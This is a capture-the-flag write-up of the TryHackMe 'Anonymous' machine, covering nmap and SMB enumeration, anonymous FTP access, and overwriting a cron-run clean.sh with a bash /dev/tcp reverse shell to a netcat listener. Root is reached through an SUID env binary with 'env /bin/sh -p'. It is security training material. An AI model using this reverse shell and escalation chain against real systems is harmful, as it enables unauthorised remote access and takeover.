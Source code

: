 ```yaml
---
title: Anonymous - TryHackMe
date: 2020/08/13
categories:
  - pentesting
  - writeups
---
```


Hello there! Today I am going to walk you through the Anonymous machine on [TryHackMe](https://tryhackme.com/room/anonymous).

Let’s first (as always) export the IP to a global variable, for easier reference later on. So when ever you see \$IP I am talking about the machines IP.

```bash
export IP={Machine IP}
```

![test](flag3.png)
![test](flag4.png)

## Enumeration

Let’s get started with an nmap scan:

```plain
nmap -T4 -A -p- $IP
```

Those are the results:

```plain
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-09 13:27 EDT
Nmap scan report for 10.10.115.205
Host is up (0.096s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.25.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/9%OT=21%CT=1%CU=35520%PV=Y%DS=2%DC=T%G=Y%TM=5F303224
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=F9%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11N
OS:W6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R
OS:=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Network Distance: 2 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -2s, deviation: 1s, median: -2s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2020-08-09T17:27:57+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-08-09T17:27:57
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   41.06 ms  10.9.0.1
2   114.16 ms 10.10.115.205

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.36 seconds
```

We can already see that there are three interesting services running. SMB, FTP and SSH. I chose to have a look at SMB first and then work my way up.<br/>In the scan results we can see that guest login is allowed, so let’s make use of that.

First I used SMBMap to see what share we could access:

```plain
root@hades      :~# smbmap $IP
[+] Guest session       IP: 10.10.115.205:445   Name: 10.10.115.205
        Disk                                                    Permissions Comment
    ----                                                    ----------- -------
    print$                                              NO ACCESS   Printer Drivers
    pics                                                READ ONLY   My SMB Share Directory for Pics
    IPC$                                                NO ACCESS   IPC Service (anonymous server (Samba, Ubuntu))
```

The “pics” share seems interesting, but apparently this was a rabbit hole, there were literally just a few pictures on there.

So let’s move on to the next port. It is an FTP server with anonymous login enabled (always look closely at you scan results). I just logged in with the command line, like this:

```plain
root@hades      :~/ctf/thm/anonymous# ftp 10.10.115.205 21
Connected to 10.10.115.205.
220 NamelessOne's FTP Server!
Name (10.10.115.205:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

As the password I entered nothing and just pressed enter. We can move around the FTP server just like on a Linux machine and after looking around for a bit, I found three files:

```plain
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04 19:24 clean.sh
-rw-rw-r--    1 1000     1000         1763 Aug 09 17:45 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
```

You can easily download them with “get” and then the file name (get [‘File name’]).

## Gaining Access

Only the bash script really is interesting for us. The todo just says to remove the anonymous login and the log is being generated by the clean.sh script. The script itself deletes all files from the /tmp directory, when run. Potentially this is a cron job?<br/>A cron job is something you can set up on your Linux machine to do tasks e.g. daily, monthly etc.

So if we can override the script we can let it do whatever we want (Spoiler: we can).

Just create a shell scipt and insert some kind of shell. I used this simple reverse shell, just insert you own IP:

```bash
#!/bin/bash

bash -i >& /dev/tcp/[Your tun0 IP]/8080 0>&1
```

And upload it with “put” and then the file name of the local file.

Then set up a netcat listener on you machine:

```bash
nc -lnvp 8080
```

Now you just need to wait a few seconds and you should be able to see a shell pop up, where you set up the listener.

### User Flag

You can now just cat out the user flag, which is located at /home/anonymous/user.txt .

## Privilege Escalation

I followed my routine and downloaded LinPeas on the target machine.<br/>It found an “env” SUID, which if you look it up on [GTFOBins](https://gtfobins.github.io/gtfobins/env/) is easily exploitable. Just run this simple command:

```bash
env /bin/sh -p
```

And there you go, you have root.

### Root Flag

And again you can just cat out the root flag, which is located at /root/root.txt this time.

## The End

And there you have it! I hope you had fun, I know I did 🦄
